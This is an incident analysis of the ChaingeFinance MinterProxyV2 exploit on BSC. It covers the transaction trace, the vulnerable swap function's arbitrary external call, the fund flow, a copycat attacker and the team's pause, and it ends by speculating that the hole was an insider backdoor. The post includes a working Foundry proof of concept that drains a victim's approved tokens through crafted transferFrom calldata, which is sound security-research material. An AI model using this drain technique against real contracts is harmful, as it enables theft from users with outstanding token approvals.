# 240415-ChaingeFinance

## AttackTx

Using Phalcon to analyze the [attack transaction](https://phalcon.blocksec.com/explorer/tx/bsc/0x051276afa96f2a2bd2ac224339793d82f6076f76ffa8d1b9e6febd49a4ec11b2).

### Fund Flow



The fund flow is straightforward; clearly, 0x8a4a is the victim's address that lost funds (an EOA address), while 0x6979 received the profit obtained from the attack (not the same as the attacker address).

### Balance Changes



The balance changes are consistent with the fund flow, involving no other addresses.

### Invocation Flow



The invocation flow is similarly simple. The attacker merely used the attack contract to continuously call the `swap` function of the MinterProxyV2 contract, with the target being different tokens, which are the tokens lost by the victim.



Within the `swap`, it can be noted that the `transferFrom` function corresponding to the target token is directly called here, transferring the victim's tokens away.

Additionally, there are two more AttackTx, with the same logic, but targeting different tokens.

## Vulnerability

Clearly, the vulnerability exists in the `swap` function of the MinterProxyV2 contract, allowing the attacker to exploit `transferFrom` to transfer tokens from the victim that had previously approved the vulnerable contract.

The code of the vulnerable function is as follows.

```solidity
function swap(
    address tokenAddr,
    uint256 amount,
    address target,
    address receiveToken,
    address receiver,
    uint256 minAmount,
    bytes calldata callData,
    bytes calldata order
) external payable nonReentrant whenNotPaused {
    _checkVaultOut(tokenAddr, amount, order);
    require(
        target != address(this) && target != address(0),
        "MP: target is invalid"
    );
    require(callData.length > 0, "MP: calldata is empty");
    require(receiveToken != address(0), "MP: receiveToken is empty");
    require(receiver != address(0), "MP: receiver is empty");
    require(minAmount > 0, "MP: minAmount is empty");

    uint256 old_balance = _balanceOfSelf(receiveToken);
    if (tokenAddr == NATIVE) {
        require(amount == msg.value, "MP: amount is invalid");
        target.functionCallWithValue(
            callData,
            amount,
            "MP: CallWithValue failed"
        );
    } else {
        IERC20(tokenAddr).safeTransferFrom(
            _msgSender(),
            address(this),
            amount
        );
        if (IERC20(tokenAddr).allowance(address(this), target) < amount) {
            IERC20(tokenAddr).safeApprove(target, MAX_UINT256);
        }
        target.functionCall(callData, "MP: FunctionCall failed");
    }

    uint256 _amountOut = 0;

    uint256 new_balance = _balanceOfSelf(receiveToken);
    require(
        new_balance > old_balance,
        "MP: receive amount should above zero"
    );
    _amountOut = new_balance - old_balance;

    require(_amountOut >= minAmount, "MP: receive amount not enough");
    if (receiveToken == NATIVE) {
        TransferHelper.safeTransferNative(receiver, _amountOut);
    } else {
        IERC20(receiveToken).safeTransfer(receiver, _amountOut);
    }

    _orderID++;
    emit LogVaultOut(
        receiveToken,
        _msgSender(),
        _orderID,
        _amountOut,
        receiver,
        order
    );
}

function _checkVaultOut(
    address tokenAddr,
    uint256 amount,
    bytes calldata order
) internal pure {
    require(tokenAddr != address(0), "MP: tokenAddress is invalid");
    require(amount > 0, "MP: amount is 0");
    require(order.length > 0, "MP: order is empty");
}
```

It can be noted that since both target and callData are parameters passed to the `swap` function, they can be arbitrarily specified, leading to the arbitrary external call vulnerability in the following code.

```solidity
target.functionCallWithValue(
            callData,
            amount,
            "MP: CallWithValue failed"
        );
target.functionCall(callData, "MP: FunctionCall failed");
```

Since both the target of the call and the parameters are controllable, for any victim that has approved the vulnerable contract (especially with unlimited approval), the attacker can pass parameters to call the `transferFrom` function and obtain all tokens corresponding to the victim.

## Exploit

### Reproduce

Combining the three AttackTx from the attacker, the exploit can be derived as follows.

```solidity
function testExploit() public {
    uint attackBlockNumber = 37880387;
    vm.rollFork(attackBlockNumber);

    address[12] memory targetToken = [
        address(usdt),
        address(sol),
        address(AVAX),
        address(babydoge),
        address(FOLKI),
        address(ATOM),
        address(TLOS),
        address(IOTX),
        address(linch),
        address(link),
        address(btcb),
        address(eth)
    ];

    for (uint i = 0; i < targetToken.length; i++) {
        _attack(targetToken[i]);
    }
}

function _attack(address targetToken) private {
    uint256 Balance = IERC20(targetToken).balanceOf(victim);
    uint256 Allowance = IERC20(targetToken).allowance(victim, address(minterproxy));
    uint256 amount = Balance < Allowance ? Balance : Allowance;
    if (amount == 0) {
        emit log_named_string("No allowed targetToken", IERC20(targetToken).name());
        return;
    }
    bytes memory transferFromData = abi.encodeWithSignature("transferFrom(address,address,uint256)", victim, address(this), amount);
    minterproxy.swap(address(this), 1, targetToken, address(this), address(this), 1, transferFromData, bytes(hex"00"));
    emit log_named_string("targetToken", IERC20(targetToken).name());
    emit log_named_decimal_uint("profit", IERC20(targetToken).balanceOf(address(this)), IERC20(targetToken).decimals());
}

function balanceOf(address /*account*/) external view returns (uint256) {
    return balance;
}

function transfer(address /*recipient*/, uint256 /*amount*/) external pure returns (bool) {
    return true;
}

function allowance(address /*_owner*/, address /*spender*/) external pure returns (uint256) {
    return type(uint256).max;
}

function approve(address /*spender*/, uint256 /*amount*/) external pure returns (bool) {
    return true;
}

function transferFrom(address /*sender*/, address /*recipient*/, uint256 amount) external returns (bool) {
    balance += amount;
    return true;
}
```

According to the logic of the original `swap` function, the attack contract itself also needs to act as a fake token, implementing the relevant ERC20 interfaces.

### Attack Flow

Analyze the entire attack flow of the [attacker address](https://bscscan.com/address/0x6eec0f4c017afe3dfadf32b51339c37e9fd59dfb#internaltx).



On January 20, approximately 0.28 BNB was transferred in via SWFTSwap.



Then, on April 5, the [attack contract](https://bscscan.com/address/0x791c6542bc52efe4f20df0ee672b88579ae3fd9a) for the attack was created.

Ten days later, three AttackTx were sequentially initiated using the attack contract, exploiting the vulnerability of the [MinterProxyV2](https://bscscan.com/address/0x80a0d7a6fd2a22982ce282933b384568e5c852bf) contract, taking away various tokens from the [victim](https://bscscan.com/address/0x8A4AA176007196D48d39C89402d3753c39AE64c1), which were stored in the [profitToAddress](https://bscscan.com/address/0x69795d09aa99a305b4fc2ed158d4944bcd91d59a).

Six days later, on April 21, the attacker transferred the remaining BNB to the profitToAddress.



On the same day, all tokens were sold for USDT.



Finally, five months later, on September 22, all the obtained USDT was transferred out to [0x66ff](https://bscscan.com/address/0x66ff2f0AC3214758D1e61B16b41e3d5e62CAEcF1).

## Misc

### Premeditated Attack



It can be noted that the vulnerable contract was created on April 11, while the attacker created the attack contract on April 5.



Reviewing the transaction history of the creator of MinterProxyV2, it can be found that several similar vulnerable MinterProxyV2 contracts had already been created before. Therefore, this attack was premeditated.



By examining the victim's transaction history, it can be observed that on April 15 at 9 AM, the victim batch-approved various tokens for the vulnerable contract. The attacker likely observed this and then initiated the attack two hours later.

### Copycat



In addition to the aforementioned attacker, another attacker [0xacdb](https://bscscan.com/address/0xacdbe7b770a14ca3bc34865ac3986c0ce771fd68) also initiated a similar attack approximately one hour after the first attacker.



They also exploited the vulnerability of the MinterProxyV2 contract to take away the remaining tokens from the same victim.

### Response



By examining the historical transactions of the creator of the vulnerable contract, it can be inferred that the contract belongs to the [ChaingeFinance](https://chainge.finance/) project.



The vulnerable contract was subsequently paused by the team to prevent further exploitation, coincidentally, the pause transaction and the copycat's attack transaction occurred in the same block, one before the other.



Afterwards, the project team deployed a new MinterProxyV2 contract on the same day and the next day. The contract [0x99a5](https://bscscan.com/address/0x99a57ac044e6ce44b7e161a07af0d3e693a75b54) is still in use today, and the victim address [0x8a4a](https://bscscan.io/address/0x8A4AA176007196D48d39C89402d3753c39AE64c1) continues to approve tokens related to the new contract.

Interestingly, comparing the new contract with the original contract shows that the previously vulnerable `swap` function has been removed directly.

### Other Chains

In fact, on other chains (such as Ethereum mainnet and Arbitrum), the project team used the same address to deploy related contracts, including the vulnerable MinterProxyV2 contract.



For example, on the mainnet, the vulnerable contract [0x43e9](https://etherscan.io/address/0x43e9f7ca4aeacd67a7ac4a275cee7bc8af601be4) was also created on April 11 and was paused by the Chainge team on April 15 at 12 PM, the day of the attack.



Similarly, the victim address [0x8a4a](https://etherscan.io/address/0x8A4AA176007196D48d39C89402d3753c39AE64c1) approved many tokens for the vulnerable contract on April 15 at 9 AM.

Therefore, there is also a possibility of attacks on other chains, although it seems that no attacks occurred.

### Backdoor?



As the only victim in the attack, [0x8a4a](https://etherscan.io/address/0x8A4AA176007196D48d39C89402d3753c39AE64c1) should belong to the project team’s account and was set as liquidpool in the vulnerable contract [MinterProxyV2](https://bscscan.com/address/0x80a0d7a6fd2a22982ce282933b384568e5c852bf#readContract).

Furthermore, the first attacker ultimately transferred the profits to [0x66ff](https://bscscan.com/address/0x66ff2f0AC3214758D1e61B16b41e3d5e62CAEcF1).



This address is still active as of this writing, and suspiciously, since September 5, it has also approved a large number of tokens to the new MinterProxyV2 contract [0x99a5](https://bscscan.com/address/0x99a57ac044e6ce44b7e161a07af0d3e693a75b54), similar to the behavior of the previous victim.



Moreover, examining Token Transfers reveals that this address participated in related operations of MinterProxyV2.



Reviewing the still-used [MinterProxyV2 contract](https://bscscan.com/address/0x99a57ac044e6ce44b7e161a07af0d3e693a75b54#readContract), it can be noted that it has also been set as liquidpool.

Given the above analysis, there is reason to suspect that the earlier April attack was perpetrated by internal personnel of the team, and the vulnerable `swap` function was left as a backdoor.